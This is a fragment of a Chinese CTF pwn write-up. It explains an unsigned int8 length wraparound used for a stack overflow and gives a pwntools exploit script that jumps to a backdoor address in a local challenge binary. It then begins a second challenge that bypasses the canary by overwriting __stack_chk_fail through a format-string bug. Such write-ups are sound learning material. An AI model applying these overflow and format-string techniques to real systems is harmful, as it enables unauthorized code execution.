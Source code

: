 可以看到v3类型为unsigned int8,因此其长度最长只有255,再长则会回环,从而绕过限制

exp:

```

#!/usr/bin/env python

# -*- coding: utf-8 -*-

#Author:ZhiShi

#Tag:exp

from pwn import *

#context.log_level='debug'

p=process('./pwn')
elf=ELF('./pwn')



backdoor=p32(0x804858b)

payload='a'*21+backdoor

payload+='b'*(262-len(payload))

p.sendline(payload)

p.interactive()

```


## ret2text4.0 - 知世

题目很简单,格式化字符串漏洞和栈溢出,开了 canary

考点:用格式化字符串写__stack_chk_fail 函数来 bypass canary

首先给了后门函数,漏洞在main函数中,很明显的格式化字符串漏洞,还有一个溢出,但是因为溢出位数很少,程序又开了canary,所以这里考虑用格式化任意写来写__stack_chk_fail故意引发保护来达到攻击效果

```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char buf; // [rsp+0h] [rbp-30h]
  unsigned __int64 v5; // [rsp+28h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  read(0, &buf, 0x38uLL);
  printf(&buf, &buf);
  return 0;
}
```
